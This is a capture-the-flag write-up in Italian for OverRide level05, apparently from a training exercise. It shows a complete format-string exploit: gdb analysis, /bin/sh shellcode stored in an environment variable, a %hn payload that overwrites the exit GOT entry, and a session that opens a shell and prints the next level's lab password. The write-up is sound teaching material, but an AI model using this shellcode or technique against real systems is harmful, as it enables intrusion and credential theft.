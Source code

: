 # Level 05
Analizziamo il binario con `gdb`:
```
level05@OverRide:~$ gdb -q level05
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  printf
0x08048340  printf@plt
0x08048350  fgets
0x08048350  fgets@plt
0x08048360  __gmon_start__
0x08048360  __gmon_start__@plt
0x08048370  exit
0x08048370  exit@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
```

### Funzione `main`
Tramite `fgets` viene memorizzato un input per poi esser stampato successivamente
da `printf`.

### Soluzione
Come prima cosa dobbiamo capire quanti specificatori ci servono per raggiungere
la stringa:
```
level05@OverRide:~$ echo `python -c 'print "%x . "*20'` | ./level05
64 . f7fcfac0 . f7ec3add . ffffd69f . ffffd69e . 0 . ffffffff . ffffd724 . f7fdb000 . 2e207825 . 20782520 . 7825202e . 25202e20 . 202e2078 . 2e207825 . 20782520 . 7825202e . 25202e20 . 202e2078 . 2e207825 .
```
al decimo abbiamo l'inizio della stringa.
Ora dobbiamo trovare l'indirizzo nella GOT della funzione `exit` che è presente subito
dopo `printf` così da sostituirla con l'indirizzo di uno shellcode che inseriremo
nell'env:
```
level05@OverRide:~$ objdump -R level05 | grep exit
080497e0 R_386_JUMP_SLOT   exit
```
Adesso inseriamo lo shellcode nell'env:
```
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90"*36 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80"')
```
e cerchiamo l'indirizzo in cui verrà caricato nella memoria:
```
level05@OverRide:~$ gdb -q level05
Reading symbols from /home/users/level05/level05...(no debugging symbols found)...done.
(gdb) b main
Breakpoint 1 at 0x8048449
(gdb) r
Starting program: /home/users/level05/level05

Breakpoint 1, 0x08048449 in main ()
(gdb) x /x getenv("SHELLCODE")
0xffffd8a7:     0x90909090
```
aggiungiamo a `0xffffd8a7` `36 byte` così da raggiungere direttamente il codice e avremo
l'indirizzo: `0xffffd8cb`.
Dunque dobbiamo scrivere all'indirizzo `0x080497e0` il numero `0xffffd8cb`
quindi dividiamo il numero in due parti e calcoliamo i numeri da dover scrivere
nell'exploit per scrivere 2 byte alla volta con printf:
```
d8cb = 55496 - 8 = 55491
ffff = 65535 - 0xd8cb = 10036
```
quindi avremo:
```
python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55491d%10$hn" + "%10036d%11$hn"' > /tmp/exploit1
```
```
level05@OverRide:~$ export SHELLCODE=$(python -c 'print "\x90"*36 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\x83\xe4\xf0\xcd\x80"')
level05@OverRide:~$ python -c 'print "\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55491d%10$hn" + "%10036d%11$hn"' > /tmp/exploit1
level05@OverRide:~$ cat /tmp/exploit1 - | ./level05
��
134415680
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
exit
exit
level05@OverRide:~$ su level06
Password: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   /home/users/level06/level06
level06@OverRide:~$
```